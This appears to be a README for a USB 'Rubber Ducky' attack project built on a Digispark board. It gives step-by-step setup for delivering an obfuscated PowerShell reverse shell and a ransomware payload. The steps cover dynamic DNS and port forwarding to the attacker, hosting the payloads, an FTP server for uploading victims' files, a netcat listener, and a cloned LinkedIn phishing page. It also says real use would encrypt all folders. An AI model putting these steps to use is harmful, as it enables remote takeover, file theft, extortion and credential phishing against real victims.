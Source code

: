 # Instructions for execution the ‘Rubber Ducky’
Malwareob.ps1 - It is the obfuscated payload for reverse shell <br />
Enc2.ps1 - It is the ransomware payload <br />
Malwareproject.ino - the code for the usb
### DYNAMIC DNS
First set up with noip a hostname. <br />
Then configure the router to take the requests in ports 80,443 and 4444 to the attacker IP.
### Install Arduino IDE
1. Install the drivers and the libraries for digispark: <br />
https://github.com/LilyGO/DigiSpark-ATtiny85-driver-install <br />
Follow this to connect libraries: https://digistump.com/wiki/digispark/tutorials/connecting <br />
Try the example at the end to ensure that the usb is working.
2. Upload the code of the malwareproject.ino in the USB <br />

Before that you should set up the attacker.
### Attacker
1. Open a cmd create a folder and then insert the payloads of the reverse shell and the
ransomware. <br />
Start the server running sudo php -S 0.0.0.0:443 –t /directory/to/folder/of/powershellScript/ (in our
case the path is /home/kali/sofia/)
2. Open a cmd and install ftp: <br />
>sudo apt-get install vsftpd <br />
>sudo nano /etc/vsftpd.conf <br />
>write_enable=YES <br />
>sudo chown -R kali /var/www/html <br />
>sudo chmod 757 -R /var/www/html <br />
>service vsftpd start 
3. In another cmd write nc –lp 4444 to set the netcat listening to that port.
4. The last cmd, “set setoolkit” <br />
We select the option 1,2,3 then we put our public IP of the dynamic dns and for cloning linkedin.com <br />
For the testing purposes we put in the enc2 file a specific path to encrypt, to test it change this path with
one you would like. In a real case scenario, we will do it for all folders. <br />
Change the paths: <br />
  >1. $path= get-childitem -path "C:\Users\pc\Desktop\Lourdes\test\*" <br />
  >2. echo "mput C:\Users\pc\Desktop\Lourdes\test\*.*" >> $home\ft1.txt
